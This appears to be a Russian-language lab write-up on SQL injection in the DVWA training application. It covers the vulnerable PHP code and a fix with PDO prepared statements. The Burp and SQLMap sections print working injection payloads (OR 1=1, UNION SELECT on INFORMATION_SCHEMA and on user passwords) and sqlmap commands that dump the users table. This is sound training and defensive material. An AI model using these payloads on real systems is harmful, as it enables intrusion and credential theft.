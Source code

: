 # Использование статического анализатора кода для обеспечения безопасности
##  Участок кода, содержащий инъекцию SQL
Вредоносное значение может быть присвоено переменной `$id`. И затем с помощью этой переменной формируется SQL запрос:
```php
$getid = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
$result = mysqli_query($GLOBALS["___mysqli_ston"], $getid );
```
![image](https://user-images.githubusercontent.com/53438664/200193216-cf8858cf-97be-4a39-99bf-c77685f1ead9.png)
**Источники:**
- [OWASP Top 10 2021 Category A3](https://owasp.org/Top10/A03_2021-Injection/ "OWASP Top 10 2021 Category A3") - Injection
- [MITRE, CWE-20](https://cwe.mitre.org/data/definitions/20 "MITRE, CWE-20") - Improper Input Validation
- [MITRE, CWE-89](https://cwe.mitre.org/data/definitions/89 "MITRE, CWE-89") - Improper Neutralization of Special Elements used in an SQL Command

## Кодревью
Сервис статического анализа кода указал следующие проблемы в исследуемом коде:
![image](https://user-images.githubusercontent.com/53438664/200193274-b31845db-07d5-4057-9a2d-93889bdcf6ba.png)

### Не следует использовать символы табуляции
Разработчикам не нужно настраивать ширину вкладок своих текстовых редакторов, чтобы иметь возможность читать исходный код.
### Файлы должны содержать пустую новую строку в конце
Некоторые инструменты работают лучше, когда файлы заканчиваются пустой строкой.
### Исходный код должен соответствовать стандартам форматирования
Общие соглашения о кодировании позволяют команде эффективно сотрудничать. Это правило вызывает проблемы из-за несоблюдения стандарта форматирования. Значения параметров по умолчанию соответствуют стандарту PSR2.


## Исправление кода
### Предотвращение SQL инъекции
Применена технология **PDO**.
> **PDO** (PHP Data Objects — расширение для PHP, предоставляющее разработчику универсальный интерфейс для доступа к различным базам данных).

Принцип работы **PDO** заключается в том, что он отдельно отправляет инструкцию и отдельно данные, строго указывая, что данные это только данные. Другими словами, при привязке параметра через **PDO**, вы сообщаете БД, какие значения использовать при выполнении запроса. Затем **PDO** передаст значение уже скомпилированной инструкции.

Разница между параметрами привязки и простой старой строковой инъекцией заключается в том, что в первом случае значение не интерполируется, а скорее присваивается. Во время выполнения СУБД находит заполнитель и запрашивает значение для использования. Таким образом, нет никаких шансов, что кавычки или другие гадости проберутся в фактическое утверждение.
```php
$db = new PDO('mysql:host=localhost;dbname=dvwa', $user, $password);
```

В нашем запросе передаётся переменная `$id`, поэтому этот запрос в обязательном порядке должен выполняться только через подготовленные выражения.
> Подготовленные выражения в PDO - это обычный SQL запрос, в котором вместо переменной ставится специальный маркер - плейсхолдер.

PDO поддерживает именованные плейсхолдеры, для которых порядок не важен.
В данном случае используем именнованный плейсхолдер `:id`:
```php
$data = $db->prepare('SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;');
$data->bindParam(':id', $id, PDO::PARAM_INT);
$data->execute();
```
Добавлена проверка вводимого значения `$id` с помощью функции `is_numeric()`, для установления соответсивия типа числовому значению.
### Стандартизация кода
Убраны "запахи кода" в соответсвии со стандартом PSR2. PSR-2 – Рекомендации по оформлению кода.
> Цель данных рекомендаций – снижение сложности восприятия кода, написанного разными авторами; она достигается путём рассмотрения серии правил и ожиданий относительно форматирования PHP-кода.

### Результаты
![Результаты проверки кода после исправления](https://user-images.githubusercontent.com/53438664/200193379-ddd3e374-3239-47e5-b33f-181d0f8718c7.png "Результаты проверки кода после исправления")

## Burp
Настроив Burp и включив прокси в браузере при помощи предустановленных расширений мы можем начать перехватывать запросы из браузера.
В Burp Suite, можно увидеть перехваченные данные:
![image](https://user-images.githubusercontent.com/53438664/205754746-6ffa6a21-fe36-42ad-9f77-51b04c0fb191.png)

Заменим `id=1` на `id=1 OR 1=1#` (с использованием URL-encode), в ответ получим всех пользователей:

![image](https://user-images.githubusercontent.com/53438664/205754589-c2213481-1d0f-4fd0-b60f-fbb32fe6871c.png)

Произведём следующую инъекцию:
```
id=1 UNION SELECT NULL,TABLE_NAME FROM INFORMATION_SCHEMA.TABLES#
```
В ответ получим названия таблиц:

![image](https://user-images.githubusercontent.com/53438664/205755365-b612727e-18a2-404b-9bdb-3f3997e1a662.png)

Произведём следующую инъекцию:
```
id=1 UNION SELECT USER,PASSWORD FROM users#
```
В ответ получим пароли пользователей:

![image](https://user-images.githubusercontent.com/53438664/205756383-f86ea29b-c263-4c10-8d33-91e69c1a3bc1.png)

## SQLMap
Воспользуемся утилитой для поиска уязвимых параметров запроса.
```sh
sqlmap.py -u "http://dvwa.local/vulnerabilities/sqli_blind/" --data="id=1&Submit=Submit" --cookie="PHPSESSID=99gsrgjfdlsn3qn29s5oc4c76f; security=medium" -p id
```
![image](https://user-images.githubusercontent.com/53438664/205756897-01a9c86b-0c00-46b6-959b-33074863517b.png)

В результате поиска выявлена уязвимость типа _boolean-based blind_ и _time-based blind_ у параметра `id`.
Получим список имеющихся баз данных с помощью команды:
```sh
sqlmap.py -u "http://dvwa.local/vulnerabilities/sqli_blind/" --data="id=1&Submit=Submit" --cookie="PHPSESSID=99gsrgjfdlsn3qn29s5oc4c76f; security=medium" -p id --dbs
```
![image](https://user-images.githubusercontent.com/53438664/205757631-3e26ad8c-e149-4094-a783-f957e27f251d.png)

Получим список имеющихся таблиц базы данных `dvwa` с помощью команды:
```sh
sqlmap.py -u "http://dvwa.local/vulnerabilities/sqli_blind/" --data="id=1&Submit=Submit" --cookie="PHPSESSID=99gsrgjfdlsn3qn29s5oc4c76f; security=medium" -p id -D dvwa --tables
```
![image](https://user-images.githubusercontent.com/53438664/205757911-51b68d62-c36c-40f0-b10d-d2ff7960e129.png)

Затем получим строки из таблицы `users`:
```sh
sqlmap.py -u "http://dvwa.local/vulnerabilities/sqli_blind/" --data="id=1&Submit=Submit" --cookie="PHPSESSID=99gsrgjfdlsn3qn29s5oc4c76f; security=medium" -p id -D dvwa -T users --dump
```
![image](https://user-images.githubusercontent.com/53438664/205758686-0ad29754-b1c9-4565-b79d-0731ea3bddbf.png)

В итоге утилита SQLmap осуществила перебор паролей по имеющимся в таблице хэшам, в результате чего вывела и пароли пользователей.
